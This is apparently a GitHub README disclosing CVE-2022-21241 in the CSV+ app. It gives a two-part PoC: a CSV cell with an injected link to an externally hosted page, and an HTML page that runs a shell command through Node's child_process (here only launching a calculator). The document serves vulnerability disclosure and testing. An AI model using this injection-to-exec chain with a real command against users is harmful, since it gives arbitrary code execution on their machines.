


# csv-plus_vulnerability
👻 2-Click Arbitrary Code Execution Vulnerability.  

  

CVE-2022-21241  

⚠  
**This PoC was created to alert users and investigate vulnerabilities in their own CSV+, and is prohibited to be used for attacks.**

## Vulnerability
The following versions are vulnerable.  
- CSV+ <= 0.8.0  

Attackers can execute arbitrary code by using the Node.js functionality.
They will place the malicious js code on some site and link it from a-tags with the HTML injection vulnerability in CSV+.

## PoC
  
### Malicious csv file
```csv
<a href='https://electronooooo.htmlbin.net/xsscalc.html'>click me 👻</a>
```
`https://electronooooo.htmlbin.net/xsscalc.html` is a temporary link.  
### Malicious html file (calc)
```html
<!DOCTYPE html>
<html>
    <head>
        <script>
        if (confirm("Do you want to run a calculator to check for vulnerabilities?")){
            var cmd = "calc";
            require("child_process").exec(cmd);
        }
        </script>
    </head>
    <body>
        Hi :)
    </body>
</html>
```
